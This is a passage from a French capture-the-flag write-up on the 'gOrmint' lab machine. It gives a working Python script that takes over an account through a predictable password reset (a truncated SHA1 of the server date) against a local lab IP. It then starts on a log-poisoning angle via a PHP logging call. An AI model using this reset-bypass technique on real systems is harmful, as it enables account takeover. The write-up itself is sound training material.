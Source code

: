 On peut écrire un script de réinitialisation en Python :  

```python
from hashlib import sha1, md5

import requests
from bs4 import BeautifulSoup

data = {
    "email": "w3bdrill3r@gmail.com",
    "user": "noman",
    "submit": "reset"
}

response = requests.post("http://192.168.1.42/g0rmint/reset.php", data=data)

soup = BeautifulSoup(response.text, "lxml")

date_text = soup.find("b").text.strip()
print("Date is '{}'".format(date_text))
pass1 = sha1(date_text.encode()).hexdigest()[:20]
print("pass is", pass1)

response = requests.post(
    "http://192.168.1.42/g0rmint/login.php",
    data={
        "email": "w3bdrill3r@gmail.com",
        "pass": pass1,
        "submit": "submit"
    },
    allow_redirects=True
)

if "Login to your account" in response.text:
    print("fail")
else:
    print("success")
```

Write what where
----------------

On a beau être authentifié, il n'y a pas d'über fonctionnalités sur le site.  

La page de login fait tout de même un appel intéressant lors des tentatives de connexion infructueuses :  

```php
$log = $email;
$reason = "Failed login attempt detected with email: ";
addlog($log, $reason);
```

Cette fonction est définie dans le fichier *config.php* :  
